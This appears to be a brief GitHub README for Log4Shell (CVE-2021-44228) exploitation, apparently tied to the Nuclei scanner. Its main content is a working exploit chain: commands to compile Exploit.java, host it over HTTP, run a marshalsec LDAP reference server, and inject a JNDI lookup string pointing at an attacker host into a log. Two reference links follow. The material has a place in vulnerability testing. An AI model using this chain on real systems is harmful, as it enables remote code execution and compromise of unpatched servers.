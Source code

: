 # Log4jNuclei
# CVE-2021-44228
Log4j for nuclei



# Exploit

```
javac Exploit.java
python3 -m http.server 80
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit

insert log ${jndi:ldap://lhost/exploit}

```

# Reference

https://cloud.tencent.com/developer/article/1653754
https://www.freebuf.com/vuls/208339.html
